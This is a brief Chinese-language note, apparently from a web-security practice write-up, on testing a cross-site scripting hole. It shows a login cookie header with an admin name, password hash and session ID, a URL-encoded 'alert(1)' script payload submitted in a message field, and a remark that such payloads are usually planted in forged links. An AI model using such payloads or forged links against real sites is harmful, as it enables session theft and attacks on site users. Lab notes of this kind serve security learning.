

前置请求多了认证登入
Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=k4ir5bhncpqtovikp6kg4ghp9k
提交还是
message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=submit

简单一点就是直接登入后，提交下js代码进去即可出现弹窗

一般会伪造放在链接里面

